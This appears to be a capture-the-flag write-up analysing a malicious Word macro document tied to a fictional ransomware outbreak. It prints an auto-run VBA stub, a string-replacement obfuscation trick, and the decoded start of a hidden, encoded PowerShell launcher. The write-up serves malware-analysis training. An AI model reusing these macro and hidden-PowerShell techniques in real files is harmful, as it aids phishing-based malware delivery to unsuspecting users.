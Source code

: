 # Emo

> **WearRansom ransomware just got loose in our company. The SOC has traced the**
> **initial access to a phishing attack, a Word document with macros. Take a look**
> **at the document and see if you can find anything else about the malware and**
> **perhaps a flag.**

## The maldoc

The document macros can be extracted with:

```bash
olevba2 --deobf --decode emo.doc
```

This decodes the hex strings but the VBA code is still obfuscated:

```vba
Rem Attribute VBA_ModuleType=VBADocumentModule
Option VBASupport 1
Private Sub Document_open()
Get4ipjzmjfvp.X8twf_cydt6
End Sub
Function X4al3i4glox(Gav481k8nh28)
X4al3i4glox = Replace(Gav481k8nh28, "][(s)]w", Sxybmdt069cn)
End Function
```

## Interpretation

The most efficient, most tempting, action is to just run the code.
But I'm on my Linux laptop, not powerful enough for a Windows VM.

So let's just try and make sense of the code.

The previous snippet is run at the opening of the document. It replaces the
string "][(s)]w" with something.

There's a huge string in emo filled with these:

```
][(s)]w][(s)]wP][(s)]wO][(s)]ww][(s)]we][(s)]wr][(s)]ws][(s)]wh][(s)]we][(s)]wL][(s)]wL][(s)]w ][(s)]w-][(s)]ww][(s)]wi][(s)]wn][(s)]wd][(s)]wo][(s)]ww][(s)]ws][(s)]wt][(s)]wy][(s)]wl][(s)]we][(s)]w ][(s)]wh][(s)]wi][(s)]wd][(s)]wd][(s)]we][(s)]wn][(s)]w ][(s)]w-][(s)]wE][(s)]wN][(s)]wC][(s)]wO][(s)]wD][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]wIPA][(s)]wABY][(s)]wTKA][(s)]wYFz][(s)]wYXA][(s)]wpIy][(s)]wAdA][(s)]wxgD][(s)]wAfD][(s)]wLAr][(s)]wAVe][(s)]wDgG][(s)]wBuY][(s)]wtAH][(s)]wCyA][(s)]wwAY][(s)]wKTA
```

Which translates to `POwersheLL -windowstyle hidden -ENCOD                 IPAABYTK...`, after removing "][(s)]w".

